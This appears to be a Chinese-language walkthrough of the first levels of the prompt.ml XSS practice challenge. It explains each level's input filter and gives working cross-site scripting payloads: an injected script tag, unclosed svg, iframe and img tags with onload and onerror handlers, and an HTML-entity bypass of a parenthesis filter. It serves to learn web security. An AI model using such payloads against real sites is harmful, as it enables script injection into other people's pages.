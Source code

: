 ## http://prompt.ml/0
## 0

正常闭合，直接注入  

payload:

```html
"> <script> alert(1)</script><"
```

为了正常显示“YOU WON” ，payload:

```html
"> <script> prompt(1)</script><"
```

## 1

[正则表达式基本语法](https://www.runoob.com/regexp/regexp-syntax.html)

[正则表达式修饰符](https://www.runoob.com/regexp/regexp-flags.html)

[正则表达式个人笔记](F:\$_File\web安全\Linux\正则表达式.md)

```javascript
var stripTagsRE = /<\/?[^>]+>/gi;
```

将全部`<xxxx>`这种类型的全部置为空。

那只要不输入`>`即可，想想什么标签可以用（感觉需要点击的，都不能用了，超链接不能用，需要onclick的不能用，onerror，onload应该可以正常使用）

payload:(记得输完之后打回车刷新，payload不需要最后的那个`>`)

```html
<svg onload=prompt(1)                         >
<iframe src=11 onload=prompt(1)               >
<img src=ssss.ss onerror=prompt(1)            >
```

## 2

```javascript
input = input.replace(/[=(]/g, '');
```

将`=` `(` 置为空。

总之肯定要想办法绕过`(`

* 尝试实例化，`&#40;` 

  ```html
  <script>prompt&#40;1)</script>
  ```

  > `<script>`标签必须要闭合，否则js代码不能执行
  >
  > 只有img， input， link， hr，video，audio能自动闭合
